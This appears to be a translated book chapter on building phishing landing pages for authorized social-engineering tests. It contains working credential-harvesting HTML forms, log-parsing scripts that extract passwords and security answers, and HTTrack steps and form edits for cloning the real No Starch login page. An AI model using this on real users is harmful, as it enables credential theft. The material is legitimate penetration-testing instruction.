







# 第八章：克隆着陆页


点击您钓鱼邮件中的链接的受害者应该会落在一个可信的网页上。如果您的攻击到达了这一阶段，那么创建一个有用且真实的着陆页就成了该参与活动中最重要的部分。根据客户要求的难度，这可能从 Myspace 级别的 HTML 到几乎一模一样的克隆站点不等，这个站点是员工每天都会访问的。

本章中，我们将带您走一遍克隆网站的过程，向您展示需要对原始站点进行哪些更改。然后，我们将使用 HTTrack（一款 Linux 命令行工具）从 No Starch Press 网站克隆两个网页。您可以将这些克隆的页面托管在第七章中设置的 Apache 服务器上，然后在发送给客户员工的邮件中链接到该站点。

## 克隆网站示例

让我们来看看一个假冒的 SurveyMonkey 网站，这是我在 2017 年左右克隆的。这个简单的站点有三个页面。首先，它提示受害者填写登录表单。一旦受害者点击提交按钮，他们将进入一个密码重置表单，表单会询问一些侵入性的问题。最终页面告诉用户在重置帐户时发生了错误。让我们更深入地探索这些页面，以便您更好地理解该架构。

### 登录页面

图 8-1 显示了名为*index.html*的第一页。



图 8-1：克隆站点的首页（*index.html*）

从视觉上来看，受害者可能会注意到一些线索来识别这个钓鱼网站。请注意，它缺少表示使用 HTTPS 的绿色挂锁，因为我直接从文件渲染到浏览器中，没有使用 Apache。在真正的钓鱼攻击中，URL 不会有合法的格式*surveymonkey.com/<survey 路径>*，尽管它可能会在某些地方提到 SurveyMonkey 以迷惑用户。另外，SurveyMonkey 通常不会在登录页面上放置徽标。否则，很难识别这个钓鱼网站；浏览器标签上的标题是准确的，悬停在注册或 BBB 认证商标链接上会显示真实的链接。

图 8-2 展示了我们网站的首页（*index.html*），我们使用 HTTPS 成功连接。 这是我们将受害者引导至的初始页面，在这里我们会尝试在将受害者引导至*questions.html*页面之前，收集他们的电子邮件地址和密码。



图 8-2：该站点的 HTTPS 版本（显示清晰的安全评级）

如果你查看这个页面的 HTML 源代码，你会发现它几乎与原始网站的代码完全相同。你可以在 [`sm-phish.seosint.xyz/`](http://sm-phish.seosint.xyz/) 找到我们克隆的页面的源代码，以及用 Python 编写的解析器，用于输入的相关信息。

在 *index.html* 中，我修改了定义登录表单及其字段的代码行。我还编辑了代码，使得当用户提交表单时，会被重定向到 *questions.html* 页面：

```
<form id="sign_in_form" class="sign-in-form" 1action="Questions.html" enctype="application/x-www-form-urlencoded" 2"method=get">
<fieldset form="sign_in_form"> <label for="username">Enter
your username:</label> 
<3input id="username" name="username" value="" autocorrect="off" autocapitalize="off" class="notranslate 4textfield required" maxlength="50" size="20" autofocus="" 5type="text">
<span></span> 
<label for="password">Enter
your password:</label> 
<6input id="password" name="password" class="notranslate textfield required" size="20" autocomplete="off" type="password">
<span></span>
<div> 
<input id="remember_me" name="remember_me" type="checkbox"> 
<label class="remember-me" for="remember_me">Remember me!</label>
</div>
&nbsp;<a href="Questions.html">
<button class="translate btn btn-large btn-arrow btn-arrow-right btn-arrow-large-horiz btn-arrow-large-right-dark yellow shadow" type="submit">Sign In <span></span></button></a>
```

我定义了 `action` 1 来告诉系统在用户提交表单后应跳转到 *questions.html* 页面。接下来，我将 HTTP 方法定义为 `get` 2，用于从表单的每个字段捕获数据。（HTTP 方法的完整解释超出了本书的范围，但你可以在网上找到很多相关资源。）然后，我创建了 `input-id` 3、`textfield required` 4 和 `type` 5 字段，这些字段会生成显示在屏幕上的框供受害者使用。

你应该明白，HTTP GET 不是一种安全的方法。为了防止恶意对手利用它从客户端网络外部发起攻击，确保有防火墙保护，并且只有你的 IP 地址和客户端的 IP 地址是允许的。

也就是说，使用 HTTP GET 方法记录输入有多种优势。首先，这种策略不需要后端数据库，因为数据会直接存储在 Apache 日志文件中，位于 */var/log/apache2/access.log*。此外，如果目标组织监控其网络流量，当像 `password=something` 这样的参数以明文形式出现时，它应该会收到警报，从而为组织提供一个线索，表明它正在遭受攻击。

在 URL 或其他不安全的渠道中传递明文凭证是一个安全问题。一些平台会对这些文本进行编码，但这同样不安全；即使代码使用了哈希作为参数，攻击者如果能够拦截到该流量，也可以执行 *传哈希攻击*，即攻击者窃取密码的加密表示（哈希值），并直接用它来访问资源，而不需要知道密码。

虽然这个表单看起来像是一个登录表单，但实际上不是。它仅仅是捕获输入，并不验证它。只要每个字段至少包含一个字符，用户就能跳转到下一个页面。如果这段代码实际上是在执行身份验证，那就不安全了，因为网站会允许任何人进入。

恶意对手可能会利用这些收集到的密码进行各种攻击。例如，他们可能会尝试密码喷洒，通过在多个与员工和目标相关的登录中使用相同的密码。

### 敏感问题页面

图 8-3 显示了第二页，它以恢复账户的名义要求用户提供敏感信息。

*questions.html*页面使用与*index.html*相同的源代码。在这里，我将电子邮件地址和密码表单字段替换为四个密码重置问题。我还将引导用户进入*questions.html*的字段替换为*error.html*。



图 8-3：克隆网站的第二页，URL 中传递了来自*index.html*的参数（*questions.html*）

### 错误页面

最后一页（图 8-4）告知用户发生了错误。



图 8-4：SurveyMonkey 钓鱼攻击的错误页面

你可以将这个最终页面用于各种目的。例如，许多受害者可能会想知道错误发生的原因，并尝试再次提交流程，输入新的凭据以尝试使其成功。受害者也可能将此问题报告给 IT 部门，这可能会导致该事件结束。

该页面的 HTML 包含一个无限循环，使页面不断重载。当我编写这段代码时，大约是在 2017 年，浏览器允许该循环无限运行。2020 年后发布的浏览器版本可能会在一段时间后停止该循环。

### 信息收集

这个循环会导致问题。每次迭代时，它会向日志文件中写入一行，这使得手动从文件中提取密码和其他敏感信息变得非常困难。相反，你可以使用几个 Python 脚本，只提取相关信息。这些脚本可以在[`sm-phish.seosint.xyz/`](http://sm-phish.seosint.xyz/)找到。

在日志中，“登录”事务的原始信息包括以下内容：

```
`IP Address` - - [17/Feb/2021:04:04:12 +0000] "GET 
/Questions.html?username=Testing_Username&password=password123 HTTP/1.1" 200 11590
"https://`IP Address`/Index.html" "Mozilla/5.0 (`user agent information`) `user agent information`)  (KHTML, like Gecko) `user agent information`) "
`IP Address` - - [17/Feb/2021:04:04:36 +0000] "GET /Error.html?pet=Dee-Oh-
Gee&school=Hogwarts&name=Mom&honeymoon=Tatooine HTTP/1.1" 200 12090 "https://`IP`
`Address`/Questions.html?username=Testing_Username&password=password123" "Mozilla/5.0 (`user`
`agent information`) `user agent information`)  (KHTML, like Gecko) `user agent information`) "
```

每一行提供了用户提交的信息。它告诉我们数据被输入的页面（*questions.html*或*error.html*），以及字段 ID 和对应的值，例如`pet=Dee-Oh-Gee&`。

*data_parser_index.py*脚本将打开日志文件，找到我们要求用户在登录页面输入的每个字段，然后将字段输出为数组：

```
#!/usr/bin/env python3

import re

user_pass = re.compile(r"\S.+username\=(?P<user_name>\S.+)\&(?P<password>\S.+)\sHTTP\S.+")
log = open("/var/log/apache2/access.log", "r")
array = []

for l in log:
    u = user_pass.findall(l)
    if u:
        print(u)
    else:
        exit
```

我们导入 Python 的正则表达式模块，然后创建一个正则表达式来解析日志文件中符合条件的每一行的用户名和密码。打开文件后，`for`循环遍历日志文件中的每一行，显示所有匹配项。

接下来，*data_parser_questions.py*脚本执行与前一个脚本相同的任务，只不过它提取的是来自*questions.html*文件的输入。

```
#!/usr/bin/env python3

import re

questions = re.compile(r"\S.+pet\=(?P<pet>\S.+)\&school\=(?P<school>\S.+)\&name\=(?P<mother>\S.+)\&\
honeymoon\=(?P<honeymoon>\S.+)\sHTTP\S.+")
log = open("/var/log/apache2/access.log", "r")
array = []

for l in log:
    u = questions.findall(l)
    if u:
        print(u)
    else:
        exit
```

一旦我们使用脚本解析了数据，我们应该得到我们需要的信息。*data_parser_index.py*脚本提取了用户名和密码：

```
root@ossie:~# ./data_parser_index.py 
[('Testing_Username', 'password=password123')]
```

*data_parser_questions.py*脚本从*questions.html*中提取密码重置问题：

```
root@ossie:~# ./data_parser_questions.py 
[('Dee-Oh-Gee', 'Hogwarts', 'Mom', 'Tatooine')]
```

## 克隆一个网站

现在，你将克隆一个网站。为了本练习，你将创建一个简单但几乎完全相同的 No Starch Press 两个网页的副本。你在上一章创建的 Apache 实例需要一些代码来托管。你需要一些东西在用户屏幕上呈现；否则，你只是在测量点击。

### 寻找登录页面和用户页面

假设你正在针对一家公司的员工进行攻击，根据你的 OSINT 调查，你知道他们经常购买 No Starch Press 的书籍。为了窃取他们的网站凭据，你将复制*nostarch.com*的登录页面。现在访问此页面，或者通过*robots.txt*找到它，*robots.txt*是一个告诉互联网搜索引擎索引机器哪些内容需要索引（以及哪些不需要索引）的文件。我们通常在 OSINT 收集中使用该文件来识别那些通过传统搜索引擎无法找到的目录。

你可能会注意到，点击“登录”按钮会将你带到一个新网页：*https://nostarch.com/user*。让我们同时克隆主页和这个页面。

### 使用 HTTrack 克隆页面

你将使用网站复制工具 HTTrack 来完成这个克隆。这个命令行工具是 Kali 系统的原生工具，你可以在任何 Linux 系统上安装它。例如，使用以下命令在 Ubuntu 和 Debian 上安装它：

```
**sudo apt-get install httrack** 
```

该工具有几个有用的选项。`–mirror`选项可以创建一个几乎完全相同的特定网站副本。`–update`选项更新现有网站的副本；例如，修改底层代码、链接、跟踪器或字段。`–continue`选项如果镜像过程被中断或停止，则继续镜像网站。`–skeleton`选项只复制网站的 HTML 文件。`-O`选项允许你指定输出目录。

你应该使用哪个操作符取决于你计划克隆的网站的复杂性，以及你希望进行的钓鱼活动的复杂度。网站越大、越复杂，克隆它所需的时间就越长，这就增加了该组织发现并阻止你克隆的机会。如果客户不介意你发出太多噪音，或者希望得到一个强大的副本，或者你有充足的时间，可以进行完整的镜像过程。否则，仅仅使用 HTML 选项就足够了。你将在这里使用该选项。

要克隆 No Starch 的登录页面，输入以下命令：

```
**sudo httrack --skeleton https://nostarch.com/user/**
```

图 8-5 展示了克隆的页面。你可以从运行 HTTrack 的目录中查看它。进入适当的域名目录和目录结构。在这种情况下，你正在查看*nostarch.com*的*index.html*。



图 8-5：No Starch 登录页面的克隆

比较克隆站点与原始站点（图 8-6）。



图 8-6：真实的 No Starch 登录页面

你应该注意到的唯一区别是 URL。

### 修改登录字段代码

当前状态下，任何输入到克隆站点的信息都会将用户重定向到真实网站。你需要更改登录字段的行为。

首先，让我们查看这段代码。最简单的方法是加载真实的网站，并通过浏览器的“检查元素”功能在代码中识别登录字段。为此，右键点击页面的任意部分，然后选择**检查**。现在将鼠标悬停在登录字段上，右侧的代码应会高亮显示这些元素。

在这种情况下，登录表单会显示。以下是原始页面的表单：

```
<form id="sign_in_form" class="sign-in-form" action="Questions.html" enctype="application/x-www-form-urlencoded"1"method=post""method=get"><fieldset form="sign_in_form"> <label for="username">Enter
your username:</label> <input id="username" name="username" value="" autocorrect="off" autocapitalize="off" class="notranslate textfield required" maxlength="50" size="20" autofocus="" type="text">2
<span></span> <label for="password">Enter
your password:</label> <input id="password" name="password" class="notranslate textfield required" size="20" autocomplete="off" type="password"> <span></span>3
<div> <input id="remember_me" name="remember_me" type="checkbox"> <label class="remember-me" for="remember_me">Remember me!</label> </div>
&nbsp;<a href="Questions.html"><button class="translate btn btn-large btn-arrow btn-arrow-right btn-arrow-large-horiz btn-arrow-large-right-dark yellow shadow" type="submit">Sign In <span></span></button></a>
</fieldset>
</form>
```

就像我们之前讨论的登录表单一样，这个文件包含了用户名 2 和密码 3 字段，且验证码的工作方式相同。

经过进一步检查，你会发现这个网站使用的是 HTTP POST 方法，而不是 GET 方法，这意味着你需要重写第 1 行，以便你能通过 URL 窃取凭证，从而将其写入 Apache 访问日志。HTTP POST 和 HTTP GET 都是从服务器到客户端获取信息的方法。主要区别在于 GET 方法将参数传递在 URL 中，这比 HTTP POST 方法更不安全，因为后者使用消息体传输参数。

让我们把这个应用到我们的 No Starch 登录页面，进行一些更改，以便你可以将类型更改为 GET，并按照计划捕获凭证。你要查找的文件位于*nostarch.com/user*目录下的*index.html*中。你可以通过“检查元素”方法查找该文件，或者手动下载并查看源代码。

以下是现有代码中包含表单的部分（可以通过搜索*form*找到）：

```
<form action="https://nostarch.com/user/" method="post" id="user-login" accept-
charset="UTF-8"><div><div class="form-item form-item-openid-identifier form-type-textfield
form-group"> <label class="control-label" for="edit-openid-identifier">Log in using
OpenID</label>
<input class="form-control form-text" type="text" id="edit-openid-identifier"
name="openid_identifier" value="" size="60" maxlength="255" /><div class="help-block"><a
href="https://openid.net/">What is OpenID?</a></div></div><div class="form-item form-item-
name form-type-textfield form-group"> <label class="control-label" for="edit-name">Username
or email address <span class="form-required" title="This field is
required.">*</span></label>
<input class="form-control form-text required" title="Enter your username or email
address." data-toggle="tooltip" type="text" id="edit-name" name="name" value="" size="60"
maxlength="60" /></div><div class="form-item form-item-pass form-type-password form-group">
<label class="control-label" for="edit-pass">Password <span class="form-required"
title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter the password that accompanies
your username." data-toggle="tooltip" type="password" id="edit-pass" name="pass" size="60"
maxlength="128" /></div><input type="hidden" name="form_build_id" value="form--q4hdYs-
iZQz_R7O2aCls66if7f2BqLo2k1ZftdGkfs" />
<input type="hidden" name="form_id" value="user_login" />
<input type="hidden" name="openid.return_to"
value="https://nostarch.com/openid/authenticate?destination=user" />
<ul class="openid-links"><li class="openid-link"><a href="#openid-login">Log in using
OpenID</a></li>
<li class="user-link"><a href="#">Cancel OpenID login</a></li>
</ul><div class="form-actions form-wrapper form-group" id="edit-actions"><button
type="submit" id="edit-submit" name="op" value="Log in" class="btn btn-primary form-submit
icon-before"><span class="icon glyphicon glyphicon-log-in" aria-hidden="true"></span>
Log in</button>
</div></div></form>
```

现在，进行以下加粗部分所示的更改：

```
1**<form action="Error.html" method="get"** id="user-login" accept-charset="UTF-8"><div>
<div class="form-item form-item-openid-identifier form-type-textfield form-group"> 
<label class="control-label" for="edit-openid-identifier">Log in using OpenID</label>
<input class="form-control form-text" type="text" id="edit-openid-identifier"
name="openid_identifier" value="" size="60" maxlength="255" />
<div class="help-block">
<a 2**href="Error.html"**>What is OpenID?</a></div>
</div>
<div class="form-item form-item-name form-type-textfield form-group"> 
<label class="control-label" for="edit-name">Username or email address <span class="form-required" title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter your username or email
address." data-toggle="tooltip" type="text" id="edit-name" name="name" value="" size="60"
maxlength="60" />
</div>
<div class="form-item form-item-pass form-type-password form-group"> 
<label class="control-label" for="edit-pass">Password <span class="form-required" title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter the password that accompanies
your username." data-toggle="tooltip" type="password" id="edit-pass" name="pass" size="60"
maxlength="128" />
</div>3<input type="hidden" name="form_build_id" value="form--q4hdYs-iZQz_R7O2aCls66if7f2BqLo2k1ZftdGkfs" />
<input type="hidden" name="form_id" value="user_login" />
<input type="hidden" name="openid.return_to" value="Error.html"/>
<ul class="openid-links"><li class="openid-link"><a href="#openid-login">Log in using
OpenID</a></li>
<li class="user-link"><a href="#">Cancel OpenID login</a></li>
</ul><div class="form-actions form-wrapper form-group" id="edit-actions">
<button type="submit" id="edit-submit" name="op" value="Log in" class="btn btn-primary
form-submit icon-before">
<span class="icon glyphicon glyphicon-log-in" aria-hidden="true"></span>Log in</button>
</div></div></form>
```

你首先需要修改`form action` 1 和`href`标签 2，这样可以将该页面的流量重定向到我们的*error.html*文件。在 3 的位置，你可以看到需要删除的代码部分，这样你的假页面就不会将受害者重定向到真实页面。

你需要自己制作一个版本的*error.html*文件，引用这个文件并不难。你可以做一些简单的操作，比如复制现有文件并将表单替换为类似下面这样的语句：

```
<h5> Sorry, but our site is down for maintenance. Please check back in 24 
hours. We are sorry for any inconveniences this may cause.</h5>
```

你可以在 GitHub 仓库中找到一个名为*error.html*的示例文件，它用于 SurveyMonkey 页面（[`sm-phish.seosint.xyz/`](http://sm-phish.seosint.xyz/)）。

现在，通过双击文件查看器中的图标或在浏览器中导航到主机来测试此副本（图 8-7）。



图 8-7：在克隆的 No Starch 注册页面上显示自定义错误信息

### 将网页添加到 Apache 服务器

一旦确认站点正常运行，将其移至 Apache 的根目录。这里将安装 SSL/TLS 证书，并且 DNS 也会指向这个目录。为此，你需要将每个 HTML 文件移动到 */var/www/public_html*。所有对网站的访问将记录在 *Access.log* 文件中，你将从中收集受害者提供的数据。

以下是此次事件的 *Access.log*：

```
`IP Address` - - [17/Feb/2020:04:04:12 +0000] "GET
/error.html?openid_identifier=test&name=test&pass=test HTTP/1.1" 200 11590 "https://`IP`
`Address`/index.html" "Mozilla/5.0 (`user agent information`) `user agent information`) 
(KHTML, like Gecko) `user agent information`) "
```

## 结论

设置钓鱼页面并不特别难，尽管过程可能有些单调，而且这将决定你的成功与否。钓鱼着陆页面的质量能够决定成败，这关系到你能否在一个安全意识薄弱的公司中成功钓鱼，或者通过建立合作关系获得持续的业务。

另一个需要记住的事项是，页面的现实程度应仅根据客户的需求来决定。如果他们希望这个练习的完成度是 3 分（满分 10 分），你可以不启用 HTTPS 支持，包含一些坏链，或者使用差劲的语法。如果他们要求达到 9 分，那么就全力以赴，把所有的资源都投入进去，成为最顶尖的国家级社会工程师！
